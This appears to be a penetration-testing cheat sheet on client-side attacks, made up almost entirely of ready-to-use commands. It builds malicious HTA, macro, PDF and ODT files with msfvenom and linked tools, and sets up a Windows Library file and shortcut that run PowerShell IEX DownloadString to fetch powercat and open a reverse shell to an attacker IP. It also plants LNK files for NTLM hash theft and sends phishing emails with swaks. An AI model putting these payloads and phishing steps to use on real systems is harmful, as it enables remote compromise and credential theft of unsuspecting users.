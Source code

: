 # 🎣 Client-Side Attacks

## Information Gathering

```shell
exiftool <file>
canarytokens.com # generate a fake url to collect victim data
```

## Attacks

- [evil_macro.py](https://github.com/rodolfomarianocy/Evil-Macro/)
- [malicious-pdf.py](https://github.com/jonaslejon/malicious-pdf)
- [MMG-LO](https://github.com/0bfxgh0st/MMG-LO)

```shell
# create a malicious HTA with msfvenom
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f hta-psh -o file.hta

# generate a malicious macro for a reverse shell in powershell using base64 for .doc
python evil_macro.py -l <ip> -p <port> -o macro.txt

# generate a malicious PDF file
python3 malicious-pdf.py burp-collaborator-url

# generate a malicious odt file
python mmg-odt.py windows <ip> <port> 
```

### Windows Library

In Windows, create a file **config.Library-ms** and put the attack IP in the url and save it.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.152</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

Now create a shortcut called **install** with the attack machine IP:

```shell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.152:3333/powercat.ps1'); powercat -c 192.168.45.152 -p 4444 -e powershell"
```

Transfer them to to the attack machine, start a webdav server to serve the shortcut, a python http server to serve the powercat script and a listener to receive the reverse shell and send the email.

### Create shortcuts

#### Windows

```ps
$LnkFile = "C:\users\<user>\desktop\Services.lnk"
PS C:\> $WshShell = New-Object -ComObject WScript.Shell
PS C:\> $Shortcut = $WshShell.CreateShortcut($LnkFile)
PS C:\> $Shortcut.TargetPath = "\\192.168.45.191\test\trick.bat"
PS C:\> $Shortcut.Save()
```

#### Linux

> [ntlm_theft.py](https://github.com/Greenwolf/ntlm_theft)

```shell
python ntlm_theft/ntlm_theft.py --g lnk -s 192.168.45.191 -f Services
```

### Sending Emails

```shell
swaks -t <victim(s)_email> -f <from_email> --server <smtp_server> --body 'click me http://<YOUR_IP>/<MALWARE>' --header "Subject: Important" --add-header "Really: 1.0" --add-header "Content-Type: text/html"  [--attach <ATTACHED_FILE>]

sendEmail -t <victim(s)_email> -u <subject> -m <message> -a <attachment> -s <smtp_server> -f <from_email>
```

